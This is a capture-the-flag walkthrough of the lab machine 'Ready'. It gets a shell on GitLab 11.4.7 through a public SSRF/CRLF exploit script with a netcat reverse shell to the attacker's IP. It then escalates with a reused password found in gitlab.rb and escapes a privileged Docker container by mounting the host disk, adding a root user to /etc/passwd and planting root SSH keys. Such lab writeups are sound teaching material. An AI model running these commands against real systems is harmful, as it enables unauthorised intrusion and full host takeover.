


# Ready

Exploit SSRF + CRLF vulnerabilities in Gitlab 11.4.7 to get remote code execution. Escalate to root inside docker container by leveraging reused creds in `/opt/backup/gitlab.rb` file. Escape docker container by taking advantage of `privileged` mode to mount host's root file system and adding new root user or root ssh keys. SSH on to host for root access.

# nmap

```
❯ sudo rustscan --ulimit 5000 -a 10.10.10.220 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.10.220
Host is up, received user-set (0.015s latency).
Scanned at 2021-08-15 22:09:41 EDT for 14s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
5080/tcp open  http    syn-ack ttl 62 nginx
| http-robots.txt: 53 disallowed entries (40 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
| /s/ /snippets/new /snippets/*/edit /snippets/*/raw
| /*/*.git /*/*/fork/new /*/*/repository/archive* /*/*/activity
| /*/*/new /*/*/edit /*/*/raw /*/*/blame /*/*/commits/*/*
| /*/*/commit/*.patch /*/*/commit/*.diff /*/*/compare /*/*/branches/new
| /*/*/tags/new /*/*/network /*/*/graphs /*/*/milestones/new
| /*/*/milestones/*/edit /*/*/issues/new /*/*/issues/*/edit
| /*/*/merge_requests/new /*/*/merge_requests/*.patch
|_/*/*/merge_requests/*.diff /*/*/merge_requests/*/edit
|_http-title: GitLab is not responding (502)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH looks up to date, so skipping for now.

# 5080 - http, gitlab

Browsing to page:



See a gitlab login portal. Will need creds to log in, probably.

Also checking out the robots.txt from the nmap scan.



The `/autocomplete/users` one looks interesting. Checking it out, it returns empty JSON array.

Maybe `/admin`? Nope, redirects to login.

Looking for version info in `/help` doesn't turn anything up on quick glance.

Time for standard scans:

```sh
❯ whatweb -v -a3 http://10.10.10.220:5080 | tee whatweb.log
Summary   : nginx, HttpOnly[_gitlab_session], Script, X-XSS-Protection[1; mode=block], UncommonHeaders[x-content-type-options,x-request-id], X-Frame-Options[DENY], HTML5, HTTPServer[nginx], Open-Graph-Protocol, PasswordField[new_user[password],user[password]], X-UA-Compatible[IE=edge], Strict-Transport-Security[max-age=31536000], Cookies[_gitlab_session]

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.txt -u http://10.10.10.220:5080 --exclude-length 10989 -b 404,401
http://10.10.10.220:5080/explore              (Status: 200) [Size: 13052]
http://10.10.10.220:5080/help                 (Status: 200) [Size: 37682]
http://10.10.10.220:5080/public               (Status: 200) [Size: 13131]
http://10.10.10.220:5080/robots.txt           (Status: 200) [Size: 2095]
http://10.10.10.220:5080/search               (Status: 200) [Size: 12402]

```

Also checked out `/explore/` subdirectory: `projects`, `groups`, `snippets`. Not seeing anything.

Googling `gitlab community edition exploit` turns up multiple results:

- https://www.cybersecurity-help.cz/exploits/30988/
  - SSRF versions 8.18-11.x (CVE-2018-19571). Also lists 6 other exploits with links, including RCE...
- https://www.exploit-db.com/exploits/49334
  - Authenticated RCE in v11.4.7 (CVE-2018-19571 + CVE-2018-19585)
  - Similar one here:
    - https://www.exploit-db.com/exploits/49257
- https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce/
  - Mentions there is a Metasploit module for RCE and arbitrary file read. Affects up to version 12.8.8

The last one looks especially interesting because it's most recent. Checking it out:

```sh
❯ locate gitlab_file_read_rce
❯ less /usr/share/metasploit-framework/modules/exploits/multi/http/gitlab_file_read_rce.rb
```

From the source code, it looks like you can use directory traversal on the issue description to get it to copy a file contents as the description for a new issue by moving the issue. By reading the Ruby `secrets_key_base` (likely in `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml`), it can use that to sign code that gets executed remotely.

The HackerOne writeup is here:

- https://hackerone.com/reports/827052

And it has steps to reproduce:

1. Create two projects

2. Add an issue with the following description:

   ``

3. Move the issue to  the second project

4. The file will have been copied to the project.

5. Turn into RCE by first grabbing the `secret_key_base` from `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` using the arbitrary file read and then use the `experimentation_subject_id` cookie with a Marshalled payload.


So let's see what we can do if we create a user. Registered new user:

- creds: `derp:herpaderp`
- email: `derp@derp.com`

Registration and login as new user works!

Check out version:

`http://10.10.10.220:5080/api/v4/version` -> "11.4.7"

That's vulnerable to some of the exploitdb scripts! However, it's too old for the RCE vuln from the Metasploit module (must be from 12.4.0 or later).

Also want to check if the HackerOne file-read steps work. Created 2 projects, added issue with exactly the description mentioned, moved issue from one project to another, but got an error? Maybe the uploads path needs to point to something in the project space? I'll get back to that later after trying the exploitdb stuff.

Found this github while trying to go back to the exploitdb stuff:

- https://github.com/Algafix/gitlab-RCE-11.4.7

Looks worth a try:

```sh
❯ git clone https://github.com/Algafix/gitlab-RCE-11.4.7.git
❯ cd gitlab-RCE-11.4.7
# start netcat listener in other terminal
❯ sudo nc -lvnp 443
# exploit
❯ python3 rce_script.py -u derp -p herpaderp -g http://10.10.10.220:5080 -l 10.10.14.2 -P 443
```

And we get a shell! The script uses `nc -e` for reverse shell by default, lol.

# PrivEsc

We're running as the user `git`.

Running Linpeas, see lots of Linux capabilities are granted to git user (flagged the `cap_chown`, but many more seem exploitable)

- https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities

Interestingly, this shell is running inside a docker container. Maybe we have to escape to the host?

Tried running chown on `/etc/passwd`, but gave me permission denied error? Apparently I still have to be running as root in the docker container for the capabilities to work.

Got stuck for a while trying to figure out how to get root on docker. Ended up finding out that there are smtp credentials in the file `/opt/backup/gitlab.rb`.

```ruby
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

Those creds are reused for the root docker user, so can run `su -` to privesc inside docker.

No `proof.txt` under `/root`, so docker escape is definitely required.

Circling back to the Linux capabilities, there is one that is critical for escape: `cap_sys_admin`.

To exploit the host machine, we first mount the host disk file system (possible because docker container is running in `privileged` mode, as proven by analyzing the `docker-compose.yml` file).

```sh
fdisk -l # get disk name
mount /dev/sda2 /mnt/ # mount it
cd /mnt
chroot ./ bash # you have a shell inside the docker hosts disk
# add new root user 'derp'
echo "derp:$(openssl passwd -1 -salt derp herpaderp):0:0:root:/root:/bin/bash" >> /etc/passwd
# now you can ssh into the host machine using the new root user
```

Or you can add an ssh key to the root user and ssh in as root:

```sh
# on victim
ssh-keygen -f /mnt/root/.ssh/id_rsa -P ""
cp /mnt/root/.ssh/id_rsa.pub /mnt/root/.ssh/authorized_keys
cat /mnt/root/.ssh/id_rsa
# on kali, save new id_rsa with 600 permissions
chmod 600 id_rsa
ssh -i id_rsa root@10.10.10.220
```

